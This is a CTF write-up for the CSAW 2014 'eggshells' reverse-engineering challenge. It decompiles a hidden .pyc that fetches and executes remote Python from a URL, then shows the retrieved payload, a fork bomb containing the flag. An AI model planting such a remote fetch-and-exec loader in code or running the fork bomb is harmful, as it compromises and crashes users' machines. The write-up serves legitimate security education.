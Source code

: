 # CSAW CTF 2014: eggshells

**Category:** Reverse Engineering
**Points:** 100
**Description:**

> I trust people on the internet all the time, do you?
>
> Written by ColdHeat
>
> [eggshells-master.zip](eggshells-master.zip)

## Write-up

Let’s unzip [the provided zip file](eggshells-master.zip):

```bash
$ unzip eggshells-master.zip
```

This creates a directory `eggshells-master` that contains a bunch of Python files. One compiled Python file, `utils.pyc`, stands out. Let’s decompile it using [`uncompyle2`](https://github.com/wibiti/uncompyle2):

```bash
$ uncompyle2 utils.pyc
# 2014.09.22 10:53:48 CEST
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2014.09.22 10:53:48 CEST
```

That URL looks interesting.

```bash
$ curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

The flag is `trust_is_risky`.

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2014/09/csaw-ctf-quals-2014---eggshells-100pts-writeup>
* <http://bt3gl.github.io/csaw-ctf-2014-reverse-engineering-100-eggshells.html>
* <http://dhanvi1.wordpress.com/2014/10/07/csaw-ctf-quals-2014-eggshells-100-writeup/>
